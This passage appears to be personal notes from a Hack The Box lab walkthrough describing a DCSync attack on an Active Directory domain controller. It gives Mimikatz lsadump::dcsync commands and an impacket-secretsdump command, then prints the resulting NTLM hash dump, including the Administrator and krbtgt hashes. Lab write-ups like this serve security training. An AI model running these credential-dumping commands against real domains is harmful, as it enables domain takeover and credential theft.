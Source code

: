 ```ad-note
- DCSync functionality is part of the “lsadump” module in Mimikatz, an Open-Source application for credential dumping
- DCSync functionality is part of the “lsadump” module in Mimikatz, an Open-Source application for credential dumping
- Read well at [Protecting Against Active Directory DCSync Attacks - SentinelOne](https://www.sentinelone.com/blog/active-directory-dcsync-attacks/)
```

- we can perform this attack two ways, wither using Mimikatz or using impacket secretsdump script
- Using mimikatz, after importing the script, will run the commands: 
```
./mimikatz.exe
privilege::debug
lsadump::dcsync /user:gr4y\Administrator
lsadump::dcsync /user:gr4y\krgtgt
```
- But I used secretsdump script because mimikatz was misbehaving for some reason
- so on our attack machine we will use `impacket-secretsdump` using the command bellow and the credentials of our user with the DCSync rights

```shell
──(gr4y㉿kali)-[~/HTB]
└─$ impacket-secretsdump -just-dc gr4y:password123@10.10.10.161 -outputfile dcsync_hashes 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
```